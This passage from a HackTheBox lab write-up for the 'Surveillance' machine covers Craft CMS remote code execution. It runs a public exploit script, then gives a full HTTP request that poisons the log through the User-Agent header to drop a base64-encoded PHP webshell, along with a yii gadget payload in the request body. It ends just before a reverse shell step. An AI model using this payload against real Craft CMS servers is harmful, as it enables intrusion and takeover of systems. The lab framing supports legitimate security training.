 And a POC for the exploit:

![](../images/machine/surveillance/poc_surveillance.png)

### Public Exploit

As the goal in HackTheBox is to get root on the machine as fast as possible, I first used a public exploit found on Github (link above). See below for manual exploitation.

```py
python3 craft-cms.py http://surveillance.htb
```

### Manual Exploitation

This [article](https://blog.calif.io/p/craftcms-rce) shows us that we can poison the log and get a webshell by injecting php code inside the user-agent when the request is sent.

Don't forget to encode in base64 the webshell.

```http
POST /index.php HTTP/1.1
Host: surveillance.htb
User-Agent: <?php `echo PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7Pz4=|base64 -d > /var/www/html/craft/web/shell.php`;?>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 239

action=conditions/render&configObject=craft\elements\conditions\ElementCondition&config={"name":"configObject","as ":{"class":"\\yii\\rbac\\PhpManager","__construct()":[{"itemFile":"/var/www/html/craft/storage/logs/web-2023-11-24.log"}]}}
```

Let's get our reverse shell now:
